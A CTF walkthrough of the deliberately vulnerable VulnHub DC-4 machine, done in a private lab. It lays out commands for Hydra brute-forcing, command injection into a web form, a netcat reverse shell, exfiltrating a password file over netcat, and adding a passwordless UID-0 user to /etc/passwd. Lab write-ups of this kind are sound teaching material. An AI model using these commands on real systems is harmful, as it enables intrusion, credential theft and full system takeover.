# DC-4 — VulnHub Walkthrough

A clear, step-by-step penetration testing writeup of the DC-4 Capture The Flag (CTF) machine.

## About this machine

| | |
|---|---|
| Name | DC-4 |
| Author | DCAU7 |
| Source | [VulnHub — DC-4](https://www.vulnhub.com/entry/dc-4,313/) |
| Target OS | Debian GNU/Linux |
| Goal | Get a shell, escalate to `root`, and read `/root/flag.txt` |

DC-4 is a deliberately vulnerable virtual machine made for learning. The whole lab runs in a private, isolated network. Everything below was done on my own lab; never use these techniques against a system you do not own or do not have written permission to test.

The attacker machine is Kali Linux (`192.168.56.124`); the target is DC-4 (`192.168.56.123`).

---

## Step 1 — Brute forcing the login page

When I opened `http://192.168.56.123`, I saw an "Admin Information Systems Login" page with a username and a password field, and nothing else to click. So this login form was the first door to open. The username was very likely `admin`, so I only had to find the password.



A login form with no protection (no lockout, no captcha) can be attacked with a password list. I used Hydra with the `rockyou.txt` wordlist, which tries thousands of passwords quickly and stops when one works:

```bash
hydra -l admin -P ~/wordlists/rockyou.txt 192.168.56.123 \
  http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -f -V
```

Here `S=logout` means the login worked if the word `logout` appears in the answer.



After a short time, Hydra found the password `admin : happy`.



---

## Step 2 — Command injection on the admin panel

After logging in, the site showed a "System Tools" page (`command.php`) with three radio buttons and a Run button. When I clicked Run, the server answered like it had run a real Linux command. If a website runs system commands and sends the choice through a form field, I may be able to change that field and run my own command instead.

I sent the request through Burp Suite and caught the POST to `command.php`, where the body was `radio=du+-h&submit=Run`. The value of `radio` is simply the command the server runs, so I replaced it with `id` as a safe test:



The server answered normally, which proved the injection works. I then checked which useful programs were installed:

```
radio=which nc bash perl python python3&submit=Run
```



The answer showed that `nc` (Netcat) and `bash` were present — enough to open a reverse shell.

---

## Step 3 — Getting a reverse shell (www-data)

Running one command at a time through a web form is slow. A reverse shell makes the target connect back to my Kali machine and hand me a proper terminal, which also passes through firewalls more easily.

On Kali I started a listener:

```bash
nc -lvnp 4444
```

Then, in Burp, I injected a Netcat reverse shell command:

```
radio=nc 192.168.56.124 4444 -e /bin/bash&submit=Run
```



The web page showed a 504 Gateway Time-out, which is normal here: the page hangs because the command never ends while it stays connected to me. On my listener, the shell arrived as the web user `www-data`:



To make the shell comfortable, I upgraded it to a full terminal:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

---

## Step 4 — Enumeration and moving to user jim

`www-data` is a weak user. To go higher I needed to learn more about the machine: which people have accounts, and whether any file holds a secret. This searching step is where most CTFs are really won.

I listed the real users and looked inside their home folders:

```bash
cat /etc/passwd | grep -E "sh$"
ls -la /home/charles /home/jim /home/sam
```

There were three human users: charles, jim, and sam.



Inside Jim's folder I found a backup of old passwords — a perfect list for a targeted brute force, in case Jim reused one for SSH:

```bash
cat /home/jim/backups/old-passwords.bak
```



I copied the list to my Kali machine with Netcat, listening on one side and sending on the other:

```bash
nc -lvnp 5555 > passwords.txt
nc 192.168.56.124 5555 < /home/jim/backups/old-passwords.bak
```





Then I used Hydra again, this time against SSH with user `jim` and the new list, and logged in with the match it found (`jim : jibril04`):

```bash
hydra -l jim -P passwords.txt 192.168.56.123 ssh
ssh jim@192.168.56.123
```



A quick `sudo -l` said jim may not run sudo, so I needed another idea.

---

## Step 5 — From jim to charles (reading mail)

On login, the system said "You have mail." On Linux, user mail is stored in `/var/mail/`, and mail often contains private messages between people — a good place to find a leaked password.

```bash
cat /var/mail/jim
```

The mailbox held a message from Charles sharing his own password with Jim in case anything went wrong: `^xHhA&hvim0y`.



I switched to Charles with that password:

```bash
su charles
```

---

## Step 6 — Privilege escalation to root (teehee)

The last question for any user is what they can run as root.

```bash
sudo -l
```

The answer was the key to the machine: charles could run `/usr/bin/teehee` as root with no password. `teehee` is a copy of the normal `tee` command: it writes text into a file. If I can write into any file as root, I can write into sensitive system files such as `/etc/passwd`, which defines the users of the system.



In `/etc/passwd`, a user with the number `0` in the user-ID field is treated as root. So I appended a new user called `hacker` with an empty password and user-ID `0`:

```bash
echo "hacker::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```



Then I switched to this new user, with no password needed, and became root:

```bash
su hacker
id
```

Finally I read the trophy file:

```bash
cat /root/flag.txt
```

